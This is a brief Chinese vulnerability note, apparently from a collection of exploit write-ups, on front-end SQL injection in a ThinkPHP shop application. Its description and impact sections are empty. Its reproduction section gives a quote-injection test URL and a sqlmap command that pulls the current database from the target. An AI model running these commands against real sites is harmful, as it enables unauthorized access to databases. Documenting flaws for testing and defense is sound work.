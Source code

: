 ```yaml
---
title: "Thinkphp Shop前台SQL注入"
id: zhfly3180
---
```


# Thinkphp Shop前台SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/mobile/index/index2/id/1'

sqlmap -u "http://www.0-sec.org/mobile/index/index2/id/1*" --random-agent --batch --dbms "mysql" --current-db
